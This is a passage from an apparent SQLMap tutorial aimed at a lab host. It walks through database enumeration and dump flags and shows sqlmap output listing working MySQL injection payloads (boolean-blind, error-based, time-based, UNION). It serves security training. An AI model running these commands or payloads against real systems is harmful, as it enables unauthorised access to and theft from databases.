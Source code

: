 The `--dbs` flag helps you to extract all the database names. Once you get to know the database names, you can extract information about the tables of that database by using `-D database_name --tables`. After obtaining the tables, if you want to enumerate the records in those tables, you can use `-D database_name -T table_name --dump`. The different flags in the SQLMap tool let you extract detailed information from the databases. Now, let's take a practical scenario and use all the above flags to exploit a web application vulnerable to SQL injection.

The first step is to look for a possible vulnerable URL or request. You may often come across some URLs that use GET parameters to retrieve the data. For example, a URL like `http://sqlmaptesting.thm/search?cat=1` uses a parameter `cat` that takes the value `1`. If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the `-u` flag in the SQLMap tool. This is considered to be HTTP GET-based testing. This approach is followed when the application uses GET parameters in the URL to retrieve data from the searches.

We will use a supposedly vulnerable website URL: `http://sqlmaptesting.thm` for the demonstration. Suppose that this website has a search option, and when you click on this search option and search for something, the URL becomes `http://sqlmaptesting.thm/search/cat=1`, which uses the GET parameter `cat=1` in the URL to extract information from the database. As we know, URLs that have GET parameters can be vulnerable to SQL injection; let us scan this URL to identify if it has any SQL injection vulnerability.

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
```